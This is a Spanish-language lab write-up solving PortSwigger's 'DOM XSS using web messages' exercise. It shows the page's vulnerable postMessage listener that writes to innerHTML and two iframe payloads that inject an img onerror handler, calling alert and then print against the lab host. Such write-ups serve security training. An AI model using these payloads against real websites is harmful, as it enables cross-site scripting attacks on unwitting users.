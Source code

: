 ```yaml
---
description: >-
  https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages
---
```


# Lab 1: DOM XSS using web messages

Primero analizamos el codigo fuente y se detecta un codigo javascript interesante:

```html
<!-- Ads to be inserted here -->
<div id='ads'></div>
<script>
window.addEventListener('message', function(e) {
  document.getElementById('ads').innerHTML = e.data;
})
</script>
```

* La función `innerHTML` asigna directamente el contenido HTML al elemento `div` con id `ads`.
* Si el contenido (`e.data`) incluye código HTML o JavaScript, este será interpretado y ejecutado por el navegador.

Teniendo en cuenta lo anterior y adicionalmente la ausencia de la cabecera de x-frame-options:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 11084
```

Se procede a crear un HTML con el siguiente payload:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(2024)>','*')">
```
{% endcode %}

Y lo anterior, nos genera el siguiente comportamiento:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

El siguiente payload nos ayudara a resolver el ejercicio:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
{% endcode %}

